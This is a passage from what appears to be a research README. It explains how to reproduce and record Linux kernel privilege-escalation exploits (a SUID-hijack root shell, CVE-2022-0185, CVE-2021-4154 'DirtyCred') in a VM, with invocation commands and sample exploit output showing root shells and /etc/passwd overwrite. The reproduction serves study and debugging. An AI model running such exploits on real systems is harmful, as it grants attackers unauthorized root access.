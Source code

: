 2. Start recording, then execute:
```
./exploit /usr/bin/su

# Example output:
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
```

3. Stop recording.

### CVE-2022-0185
Reproduce:

1. In the VM, start recording, then execute:
```
cd /root/cve-2022-0185
./exploit
```

2. Stop recording.

This reproduction does not show anything specific on the screen, as there's a heap overflow happening secretly. However, during the replay, you can follow [here](https://github.com/dcheng69/CVE-2022-0185-Case-Study/blob/main/Poc/poc.md) to use gdb to examine whether the heap overflow has happened.

### CVE-2021-4154:
Reproduce:

1. In the VM, switch the user:
```
cd /root/cve-2021-4154
su silver
```

2. Start recording, then execute:
```
./exploit

# Example Output:
[*] start slow write to get the lock
[*] got uaf fd 4, start spray....
[!] found, file id 3
[*] overwrite done! It should be after the slow write
[*] write done!
[   62.585512] VFS: Close: file count is 0
[   62.588002] VFS: Close: file count is 0
[!] succeed
[*] checking /etc/passwd

[*] executing command : head -n 5 /etc/passwd

DirtyCred works!
```
